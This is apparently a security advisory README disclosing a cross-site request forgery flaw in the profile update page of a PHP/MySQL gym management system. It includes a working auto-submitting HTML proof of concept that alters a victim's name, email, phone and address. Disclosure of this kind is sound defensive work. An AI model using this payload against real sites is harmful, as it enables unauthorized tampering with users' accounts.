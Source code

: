 # Gym Management System

A GYM management system built using PHP and MySQL.

## Auditor

Shoaib Alam - [LinkedIn Profile](https://www.linkedin.com/in/shoaib-alam-b53843203/)

## Description

### CSRF Vulnerability in Profile Update Section

A Cross-Site Request Forgery (CSRF) vulnerability has been identified in the Gym Management System. This issue is present in the profile update functionality of the User Panel.

The application currently lacks the implementation of Anti-CSRF tokens, resulting in vulnerability to Cross-Site Request Forgery (CSRF) attacks. This security weakness specifically impacts the `/profile.php` endpoint. An attacker can exploit this flaw to execute unauthorized modifications to sensitive user information, such as address, name, and phone number. This could potentially compromise the integrity of user accounts and lead to further security issues.

**Vulnerable Endpoint:** `/profile.php`

## Proof of Concept (PoC)

Below is a proof of concept demonstrating the CSRF vulnerability. This PoC was generated using Burp Suite Professional.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/gym/profile.php" method="POST">
      <input type="hidden" name="fname" value="atachackedker" />
      <input type="hidden" name="lname" value="attaclrreeeer" />
      <input type="hidden" name="email" value="shoaib@gmail.com" />
      <input type="hidden" name="mobile" value="99999999" />
      <input type="hidden" name="state" value="up" />
      <input type="hidden" name="city" value="test" />
      <input type="hidden" name="address" value="test" />
      <input type="hidden" name="submit" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
